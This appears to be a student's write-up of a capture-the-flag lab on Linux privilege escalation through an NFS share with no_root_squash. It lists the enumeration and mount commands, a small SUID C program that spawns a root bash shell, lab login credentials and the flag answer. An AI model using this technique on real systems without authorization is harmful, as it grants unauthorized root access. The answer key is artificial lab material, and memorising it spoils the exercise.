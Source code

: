 **Note: Launch the target machine attached to this task to follow along.**

**You can launch the target machine and access it directly from your browser.**

**Alternatively, you can access it over SSH with the low-privilege user credentials below:  
**

**Username: karen**

**Password: Password1**

  

Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. Some cases will also require using both vectors, e.g. finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase your current user’s privilege level.  
  
Another vector that is more relevant to CTFs and exams is a misconfigured network shell. This vector can sometimes be seen during penetration testing engagements when a network backup system is present.  
  
NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

![](https://i.imgur.com/irDQTze.png)  

The critical element for this privilege escalation vector is the “no_root_squash” option you can see above. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the “no_root_squash” option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.  
  
We will start by enumerating mountable shares from our attacking machine.

![](https://i.imgur.com/CmXPDcv.png)  

We will mount one of the “no_root_squash” shares to our attacking machine and start building our executable.

  

![](https://i.imgur.com/DwAB1qs.png)  

  

As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job.

  

![](https://i.imgur.com/nWKpFkK.png)  

  

Once we compile the code we will set the SUID bit.

  

![](https://i.imgur.com/rkZOOjZ.png)  

  

You will see below that both files (nfs.c and nfs are present on the target system. We have worked on the mounted share so there was no need to transfer them).

  

![](https://i.imgur.com/U7IjT38.png)  

  

Notice the nfs executable has the SUID bit set on the target system and runs with root privileges.

Answer the questions below

| Question                                                         | Answer |
| ---------------------------------------------------------------- | ------ |
| How many mountable shares can you identify on the target system? | 3      | 

Show mountable shares:

	- From attacker's machine:

```
showmount -e {target_IP}
```

![[Pasted image 20231216232338.png]]


| Question                                                  | Answer |
| --------------------------------------------------------- | ------ |
| How many shares have the "no_root_squash" option enabled? |        |

Read NFS configuration:

On target machine:

```
cat /etc/exports
```

![[Pasted image 20231216232933.png]]


| Question                               | Answer |
| -------------------------------------- | ------ |
| Gain a root shell on the target system |        |


Go to /mnt folder and create some folder (i.e. thmTest). Mount one of the mountable shares on the attacker machine:

```
mount -o rw 10.10.71.74:/home/ubuntu/sharedfolder /mnt/thmTest
```

![[Pasted image 20231216235111.png]]


Create c file with the following content:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main (void) {
        setuid(0);
        setgid(0);
        system("/bin/bash -p");
        return 0;
}
```

and compile it using gcc:

```
gcc code.c -o code
```


![[Pasted image 20231216235019.png]]

Add execute permissions and SUID bit to the new file:

![[Pasted image 20231216235400.png]]

![[Pasted image 20231216235652.png]]


From target machine, list /home/ubuntu/sharedfolder:

![[Pasted image 20231216235235.png]]

Execute the executable file (code):

![[Pasted image 20231217001056.png]]

and gain root privileges


| Question                                   | Answer       |
| ------------------------------------------ | ------------ |
| What is the content of the flag7.txt file? | THM-89384012 | 

The flag is in `/home/matt/flag7.txt`
